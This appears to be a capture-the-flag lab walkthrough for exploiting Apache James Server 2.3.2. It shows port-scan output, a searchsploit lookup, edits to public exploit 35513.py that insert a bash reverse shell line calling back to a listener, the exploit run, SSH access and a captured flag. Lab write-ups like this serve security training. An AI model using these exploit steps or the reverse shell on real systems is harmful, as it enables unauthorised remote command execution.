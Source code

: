 ```bash
	22/tcp    open   ssh         OpenSSH 8.4p1 Ubuntu 5ubuntu1.2 (Ubuntu Linux; protocol 2.0)
	32822/tcp open   james-admin JAMES Remote Admin 2.3.2
	32823/tcp open   nntp        JAMES nntpd (posting ok)
	32824/tcp open  pop3    JAMES pop3d 2.3.2
	32825/tcp open  smtp    JAMES smtpd 2.3.2
	32826/tcp open   ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
	Service Info: Host: 8155ad2d5547; OS: Linux; CPE: cpe:/o:linux:linux_kernel

# Search for an exploit
searchsploit james 2.3.2
	--------------------------------------------------------------------------- ---------------------------------
	 Exploit Title                                                             |  Path
	--------------------------------------------------------------------------- ---------------------------------
	Apache James Server 2.3.2 - Insecure User Creation Arbitrary File Write (M | linux/remote/48130.rb
	Apache James Server 2.3.2 - Remote Command Execution                       | linux/remote/35513.py
	Apache James Server 2.3.2 - Remote Command Execution (RCE) (Authenticated) | linux/remote/50347.py
	--------------------------------------------------------------------------- ---------------------------------

# Copy exploit
searchsploit -m 35513.py

# Review code & edit:
	# Lines 18 & 19:  Swap payload types and enter in bash reverse shell one-liner
	payload = 'bash -i >& /dev/tcp/192.168.45.214/443 0>&1' # to exploit on any user
	#payload = '[ "$(id -u)" == "0" ] && touch /root/proof.txt' # to exploit only on root

	# Lines 36 - 38:  Update James default Admin port
	print "[+]Connecting to James Remote Administration Tool..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,32822))     # <- HERE

	# Lines 50 - 52:  Update James default SMTP port
	print "[+]Connecting to James SMTP server..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,32825))     # <- HERE


# Run exploit
python2.7 35513.py 192.168.187.52

# SSH in w/ student:lab user using discovered secondary SSH port
ssh student@192.168.187.52 -p 32826

# In Listener tab
OS{d4951cff60e71ec96f1673fe7a5df95c}
```
